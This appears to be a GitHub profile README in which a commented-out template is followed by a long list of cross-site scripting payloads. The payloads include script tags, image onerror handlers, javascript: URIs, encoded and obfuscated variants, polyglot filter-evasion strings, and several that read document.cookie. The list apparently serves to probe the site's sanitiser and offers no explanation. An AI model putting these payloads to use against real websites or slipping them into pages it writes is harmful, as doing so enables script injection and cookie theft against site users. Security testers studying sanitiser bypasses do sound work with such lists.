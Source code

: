 ### Hi there 👋

<!--
**Warchant/warchant** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->

<script>alert(0)</script>
<img src=x onerror=alert(1) />

javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(2)//'>
<IMG SRC="javascript:alert(3);">
<IMG SRC=javascript:alert(4)>
<IMG SRC=JaVaScRiPt:alert(5)>
<IMG SRC=javascript:alert(&quot;6&quot;)>
<IMG SRC=`javascript:alert("RSnake says, '7'")`>
<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>
<IMG """><SCRIPT>alert("8")</SCRIPT>"\>


<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
<Video> <source onerror = "javascript: alert (XSS)">
<Input value = "XSS" type = text>
<applet code="javascript:confirm(document.cookie);">
<isindex x="javascript:" onmouseover="alert(XSS)">
"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
"><img src="x:x" onerror="alert(XSS)">
"><iframe src="javascript:alert(XSS)">
<object data="javascript:alert(XSS)">
<isindex type=image src=1 onerror=alert(XSS)>
<img src=x:alert(alt) onerror=eval(src) alt=0>
<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
<iframe/src="data:text/html,<svg onload=alert(1)>">
<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<form><a href="javascript:\u0061lert(1)">X
</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
<style>//*{x:expression(alert(/xss/))}//<style></style> 
On Mouse Over​
<img src="/" =_=" title="onerror='prompt(1)'">
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
<script x> alert(1) </script 1=2
<form><button formaction=javascript&colon;alert(1)>CLICKME
<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> 
